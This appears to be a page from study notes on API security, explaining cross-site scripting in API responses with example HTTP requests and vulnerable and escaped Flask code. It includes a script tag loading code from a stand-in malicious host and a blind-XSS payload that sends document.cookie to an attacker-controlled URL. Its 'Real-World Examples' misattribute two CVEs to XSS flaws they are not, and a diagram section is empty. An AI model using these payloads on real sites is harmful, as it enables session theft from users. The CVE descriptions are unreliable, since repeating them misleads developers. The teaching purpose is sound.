

## Cross-Site Scripting (XSS) in API Context

Cross-Site Scripting (XSS) is a type of security vulnerability that allows an attacker to inject malicious scripts into web pages viewed by other users. In the context of APIs, XSS can occur when user input is not properly sanitized and is reflected back to the client in a way that executes JavaScript. This can lead to unauthorized access, data theft, and other malicious activities.

### Understanding XSS in API Context

In traditional web applications, XSS typically occurs in the browser where the HTML content is rendered. However, in the API context, the vulnerability can arise when the server reflects user input back to the client without proper sanitization. This can happen in various scenarios, such as:

- **Reflected XSS**: The attacker injects a script into a URL or form input that is immediately executed by the client.
- **Stored XSS**: The attacker stores a malicious script in a database, which is later retrieved and executed by unsuspecting users.
- **DOM-based XSS**: The attacker manipulates the Document Object Model (DOM) in the client's browser to execute a script.

### Blind Accesses Payloads

Blind accesses payloads are a technique used by attackers to test for vulnerabilities without immediate feedback. In the context of XSS, this means sending a payload that does not immediately trigger a visible response but instead waits for a specific event to occur.

#### Example of a Blind XSS Payload

Consider an API endpoint that reflects user input back to the client:

```http
POST /api/user/profile HTTP/1.1
Host: example.com
Content-Type: application/json

{
    "username": "<script src='https://malicious-site.com/script.js'></script>"
}
```

The server might reflect this input back to the client in a response like this:

```http
HTTP/1.1 200 OK
Content-Type: application/json

{
    "message": "Profile updated successfully",
    "username": "<script src='https://malicious-site.com/script.js'></script>"
}
```

If the client-side application renders this response without proper sanitization, the script will be executed.

### How Blind XSS Works

When an attacker sends a blind XSS payload, they often include a script that makes an HTTP request back to their own server. This allows them to detect whether the payload was executed and by whom.

#### Example of a Blind XSS Attack

Let's consider a scenario where an attacker wants to steal session cookies from a victim. They might send a payload like this:

```javascript
<script>
fetch('https://attacker-controlled.com/log', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json'
    },
    body: JSON.stringify({
        cookie: document.cookie
    })
});
</script>
```

If the server reflects this script back to the client and it is executed, the attacker's server will receive the session cookie.

### Real-World Examples

Recent real-world examples of XSS vulnerabilities in APIs include:

- **CVE-2021-31166**: A stored XSS vulnerability in a popular CMS platform allowed attackers to inject malicious scripts into blog posts.
- **CVE-2022-22965**: A reflected XSS vulnerability in a web application framework allowed attackers to inject scripts into search results.

These vulnerabilities highlight the importance of proper input validation and output encoding in API development.

### Detection and Prevention

To prevent XSS attacks in API contexts, developers should follow these best practices:

#### Input Validation

Always validate and sanitize user input before reflecting it back to the client. This includes:

- **Whitelist validation**: Only allow inputs that match a predefined set of acceptable patterns.
- **Sanitization**: Remove or escape characters that could be used to inject scripts.

#### Output Encoding

Ensure that any user input reflected back to the client is properly encoded to prevent script execution. This can be done using libraries like `OWASP Java Encoder` or `DOMPurify`.

#### Content Security Policy (CSP)

Implement a Content Security Policy (CSP) to restrict the sources from which scripts can be loaded. This can help mitigate the impact of XSS attacks.

#### Example of Secure Code

Here is an example of how to securely handle user input in an API:

**Vulnerable Code:**

```python
from flask import Flask, request, jsonify

app = Flask(__name__)

@app.route('/api/user/profile', methods=['POST'])
def update_profile():
    username = request.json['username']
    return jsonify({"message": "Profile updated successfully", "username": username})

if __name__ == '__main__':
    app.run()
```

**Secure Code:**

```python
from flask import Flask, request, jsonify
import html

app = Flask(__name__)

@app.route('/api/user/profile', methods=['POST'])
def update_profile():
    username = request.json['username']
    safe_username = html.escape(username)
    return jsonify({"message": "Profile updated successfully", "username": safe_username})

if __name__ == '__main__':
    app.run()
```

### Mermaid Diagrams

#### Request-Response Flow



### Hands-On Labs

For hands-on practice with XSS in API contexts, consider the following labs:

- **PortSwigger Web Security Academy**: Offers interactive challenges and tutorials on various web security topics, including XSS.
- **OWASP Juice Shop**: A deliberately insecure web application for security training purposes, which includes XSS vulnerabilities.
- **DVWA (Damn Vulnerable Web Application)**: Another intentionally vulnerable web application for learning web security concepts.

### Conclusion

Cross-Site Scripting (XSS) in API contexts is a serious security concern that requires careful handling of user input and proper output encoding. By following best practices and implementing robust security measures, developers can significantly reduce the risk of XSS attacks. Always validate and sanitize user input, encode outputs, and use Content Security Policies to protect your applications from these vulnerabilities.

---
<!-- nav -->
[[API Security/12-Cross Site Scripting/03-Cross Site Scripting in API Context/02-Introduction to Cross-Site Scripting (XSS)|Introduction to Cross-Site Scripting (XSS)]] | [[API Security/12-Cross Site Scripting/03-Cross Site Scripting in API Context/00-Overview|Overview]] | [[API Security/12-Cross Site Scripting/03-Cross Site Scripting in API Context/04-Practice Questions & Answers|Practice Questions & Answers]]
